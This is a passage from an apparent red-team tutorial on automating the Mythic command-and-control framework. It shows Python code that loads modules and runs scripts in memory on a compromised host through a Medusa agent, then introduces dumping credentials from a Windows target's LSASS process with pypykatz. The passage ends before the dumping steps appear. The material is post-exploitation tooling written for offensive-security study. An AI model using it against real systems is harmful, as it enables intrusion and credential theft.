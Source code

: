         # submit the task and wait until it's completed to load the next
        submit = await mythic.create_task(task, return_on="")
        
        if submit.status == "success":
            print("[+] Successfully loaded {}.\n".format(module))

    # Read the script from local disk
    fc = open(script, "rb").read()
    
    print("-------------------------------")
    print("[*] Executing script...")
    print("-------------------------------\n")
    # create task for executing script
    task = mythic_rest.Task(
        callback=callback_id, 
        command=mythic_rest.Command(cmd="load_script"), 
        params={}, 
        files=[
            mythic_rest.TaskFile(
                content=fc, 
                filename=script, 
                param_name="file")
        ]
    )
    
    # Submit the task and wait for it to complete, then show us the output 
    submit = await mythic.create_task(task, return_on="")
 
    results = await mythic.gather_task_responses(submit.response.id, timeout=-1)
    for result in results:
        print(result.to_json()["response"])


async def main():
    await scripting()

loop = asyncio.get_event_loop()
loop.run_until_complete(main())
Let’s take a fresh Python 2.7 Medusa agent and try out this script.


Great, so now we have our in-memory library loaded, our script being executed, and all output making its way back to Mythic for us to view.

Now, let’s take advantage of the convenience of our automation and take things a little further!

Dumping Credentials from LSASS using the pypykatz LibraryPermalink
To demonstrate the power and versatility that all this dynamic invocation and module loading can provide us, let’s use SkelSec’s awesome pypykatz project to dump credentials from our Windows target’s LSASS process.
